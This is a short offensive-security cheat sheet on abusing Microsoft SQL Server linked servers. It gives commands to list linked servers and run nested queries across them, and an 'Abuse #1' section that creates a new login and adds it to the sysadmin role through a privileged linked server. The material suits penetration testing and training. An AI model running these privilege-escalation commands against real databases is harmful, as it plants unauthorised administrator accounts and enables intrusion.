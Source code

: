 ```yaml
---
title: "MSSQL Linked Servers"
date: 2024-6-27
tags: ["mssql", "database", "Windows", "linked_server", "privesc"]
---
```


### Basic Commands

<small>*Hint: Use double '' to escape ' in mssql*</small>

<div>

```console
# Show current server
select @@servername
```

```console
# Show linked servers
select srvname from sysservers;
```

```console
# Show linked servers
enum_links
```

</div>

### Execute Query between Linked Servers

<div>

```console
# Execute query from current server to linked server
EXECUTE ('select @@version;') at [<LINKED_SERVER>];
```

```console
# Execute query from linked server to current server
EXECUTE ('EXECUTE (''SELECT entity_name, permission_name FROM fn_my_permissions(NULL, ''''SERVER'''');'') at [<CURRENT_SERVER>]') at [<LINKED_SERVER>];
```

</div>

<br>

---

### Abuse #1: Create Admin User from Privilege Linked Server

<div>

```console
EXECUTE('EXECUTE(''CREATE LOGIN <USER> WITH PASSWORD = ''''<PASSWORD>'''';'') AT [<CURRENT_SERVER>]') AT [<LINKED_SERVER>]
```

```console
EXECUTE('EXECUTE(''EXEC sp_addsrvrolemember ''''<USER>'''', ''''sysadmin'''''') AT [<CURRENT_SERVER>]') AT [<LINKED_SERVER>]
```

</div>